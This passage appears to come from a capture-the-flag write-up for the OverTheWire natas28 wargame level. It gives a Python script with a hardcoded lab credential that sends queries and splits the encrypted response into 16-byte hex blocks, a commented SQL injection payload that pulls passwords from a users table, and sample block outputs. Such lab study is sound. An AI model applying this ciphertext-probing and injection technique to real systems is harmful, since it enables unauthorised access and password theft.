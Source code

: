 For simplicity the output are converted into blocks of 16 bytes and in hex. I have chosen 16 because the length of the aes key is 128, 192, or 256 bits ie 16,24 or 32 bytes.

```python
#!/usr/bin/python3
#code to make the requests and get the base64 encoded cipher
import requests
from urllib.parse import unquote
from base64 import b64decode,b64encode
import sys
import codecs

#query = "aaaaaaaaa'union select password from users#"
query = sys.argv[1]                                                                                                                                                                                 

url = "http://natas28.natas.labs.overthewire.org/"
headers = {'Authorization':'Basic bmF0YXMyODpKV3dSNDM4d2tnVHNOS0JiY0pvb3d5eXNkTTgyWWplRg==',
                }
params = { 'query' : query,
                }
r = requests.post(url+'index.php',data=params,headers=headers,allow_redirects=False)
red = (r.headers['Location'])
val = r.headers["Location"][18:]
b64d = b64decode(unquote(val))

url += red
r = requests.get(url,headers=headers)
def brk(lis):
        ans = []
        length = len(lis)
        for i in range(0,length,16):
                ans.append(lis[i:i+16])
        return ans
ans = brk(b64d)
for i in ans:
        print(codecs.encode(i,'hex').decode())
```

```python
#Input A * 1
Blocks
	1			1be82511a7ba5bfd578c0eef466db59c
	2			dc84728fdcf89d93751d10a7c75c8cf2
	3			ab880a8f136fbeb98967891324a1b075
	4			bdfa1054ec68515cf96f2a5544591947
	5			904f4b2abf2c2d7686aa72a53151c970
```

```python
#Input A * 2
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
b130a531bec89c705213bfa5c9667ac7
48799a07b1d29b5982015c9355c2e00e
aded9bdbaca6a73b71b35a010d2c4c57
```
